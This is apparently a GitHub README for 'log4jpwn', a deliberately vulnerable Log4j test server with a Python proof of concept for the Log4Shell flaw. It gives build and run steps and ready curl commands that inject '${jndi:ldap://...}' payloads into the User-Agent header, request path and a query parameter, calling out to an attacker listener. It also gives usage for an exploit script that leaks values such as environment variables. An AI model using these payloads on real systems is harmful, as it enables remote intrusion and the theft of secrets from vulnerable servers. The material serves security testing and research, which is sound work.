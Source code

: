 # log4jpwn

log4j rce test environment

See: <https://www.lunasec.io/docs/blog/log4j-zero-day/>

Experiments to trigger in various software products mentioned [here](https://github.com/NCSC-NL/log4shell/tree/main/software) can be found in the [software/](software/) directory.

![](images/image.png)

using the included python poc

![](images/poc.png)

## build

Either build the jar on your host with `mvn clean compile assembly:single`

Or use `docker` to build an image with `docker build -t log4jpwn .`

## run

The server will log 3 things (which are also the triggers). You don't have to set all 3:

- The `User-Agent` header content
- The request path
- The `pwn` query string parameter

To use:

- Run the container with `docker run --rm -p8080:8080 log4jpwn` (or the jar if you built on your host with `java -jar target/log4jpwn-1.0-SNAPSHOT-jar-with-dependencies.jar`)
- Make a `curl` request with a poisoned `User-Agent` header with your payload. eg `curl -H 'User-Agent: ${jndi:ldap://172.16.182.1:8081/a}' localhost:8080`, where 172.16.182.1 is where my netcat lister is running.

A complete example for all 3 bits that gets logged:

```bash
curl -v -H 'User-Agent: ${jndi:ldap://192.168.0.1:443/a}' 'localhost:8080/${jndi:ldap://192.168.0.1:443/a}/?pwn=$\{jndi:ldap://192.168.0.1:443/a\}'
```

## run - exploit

The python exploit will leak values. By default it will try `${java:version}`, but you can specify anything with the `--leak` flag.

Usage is:

```text
❯ ./pwn.py --help
usage: pwn.py [-h] --target TARGET [--listen-host LISTEN_HOST] [--listen-port LISTEN_PORT] --exploit-host EXPLOIT_HOST [--leak LEAK]

a simple log4j <=2.14 information disclosure poc (ref: https://twitter.com/Black2Fan/status/1470281005038817284)

optional arguments:
  -h, --help            show this help message and exit
  --target TARGET, -t TARGET
                        target uri
  --listen-host LISTEN_HOST
                        exploit server host to listen on (default: 127.0.0.1)
  --listen-port LISTEN_PORT, -lp LISTEN_PORT
                        exploit server port to listen on (default: 8888)
  --exploit-host EXPLOIT_HOST, -eh EXPLOIT_HOST
                        host where (this) exploit server is reachable
  --leak LEAK, -l LEAK  value to leak. see: https://twitter.com/Rayhan0x01/status/1469571563674505217 (default: ${java:version})
```

Example runs:

- `./pwn.py --target http://localhost:8080 --exploit-host 127.0.0.1`
- `./pwn.py --target http://localhost:8080 --exploit-host 127.0.0.1 --leak '${env:SHELL}'`
- `./pwn.py --target http://localhost:8080 --exploit-host 127.0.0.1 --listen-port 5555`
